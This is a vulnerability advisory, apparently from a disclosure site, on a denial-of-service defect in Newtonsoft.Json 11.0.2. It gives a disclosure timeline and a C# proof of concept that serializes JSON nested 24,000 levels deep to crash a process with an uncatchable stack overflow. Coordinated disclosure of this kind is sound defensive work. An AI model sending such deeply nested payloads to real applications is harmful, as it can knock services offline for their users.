 ```yaml
---
layout: vuln
credit: gilm
timeline:
    - type: 'report'
      date: '2018-05-29'
      arg: 'Report to library owner through NuGet'
    - type: 'report'
      date: '2018-06-27'
      arg: 'Report directly to Newtonsoft'
    - type: 'deadline'
      date: '2018-09-25'
    - type: 'release'
      date: '2018-10-22'

product: Newtonsoft.Json
vulnerable: 
    - '11.0.2'
severity: 'moderate'
alephid: ALEPH-2018004
date: '2018-10-22'
title: 'Applications that use Newtonsoft.Json might be exposed to DOS vulnerability'

---
```

A defect in Newtonsoft.Json (aka Json.NET) library might expose applications that use it to a DOS vulnerability.

Json.NET is the No.1 community package in terms of downloads (more than 150,000,000) in Nuget (package manager for .NET). It is used by many web applications as well as Desktop applications to handle Json - serialize, deserialize, etc. 

When using this library to serialize a highly nested JSON object, a StackOverflow exception is thrown.
This exception cannot be caught and it will immediately terminate the entire process (see our [blog post](/2018/09/13/StackOverflowException/)).

This library is not vulnerable by its own, but there might be a lot of scenarios where application that uses it become vulnerable due to this issue.

For example, application that gets JSON as an input and use this library to write it in a pretty format (Indented). In this case, if the input contains a highly nested JSON, the application process will terminate and the application will be unavailable.



## Proof Of Concept ##
Following is a sample program that demonstrate the issue:
```c
using System;
using System.IO;
using System.Linq;
using Newtonsoft.Json;
using Newtonsoft.Json.Linq;

namespace JsonTests
{
    class Program
    {
        static void Main(string[] args)
        {
            //Create a string representation of an highly nested object (JSON serialized)
            int nRep = 24000;
            string json = string.Concat(Enumerable.Repeat("{a:", nRep)) + "1" +
                          string.Concat(Enumerable.Repeat("}", nRep));

            //Parse this object (Parsing works well - no exception is being thrown)
            var parsedJson = JObject.Parse(json);
            
            using (var ms = new MemoryStream())
            using (var sWriter = new StreamWriter(ms))
            using (var jWriter = new JsonTextWriter(sWriter))
            {
                //Trying to serialize the object will result in StackOverflowException !!!
                parsedJson.WriteTo(jWriter);
            }

            //ToString throws StackOverflowException as well  (ToString is very unefficient - even for smaller payloads, it will occupy a lot of CPU & Memory)
            //parsedJson.ToString();

            //JsonConvert.SerializeObject throws StackOverflowException as well
            //string a = JsonConvert.SerializeObject(parsedJson);

        }
    }
}
```
